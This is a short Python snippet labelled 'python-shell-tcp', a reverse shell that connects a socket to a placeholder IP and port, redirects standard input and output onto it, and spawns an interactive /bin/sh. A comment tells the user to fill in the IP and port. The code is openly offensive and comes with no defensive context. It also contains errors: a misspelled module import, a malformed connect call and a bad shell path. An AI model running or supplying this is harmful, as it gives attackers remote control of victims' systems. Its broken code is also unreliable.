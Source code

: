 # python-shell-tcp
import subpreocess,os,socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#替换ip和port(Replace IP and port)
s.connect(('ip'),port)
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh/","-i"])

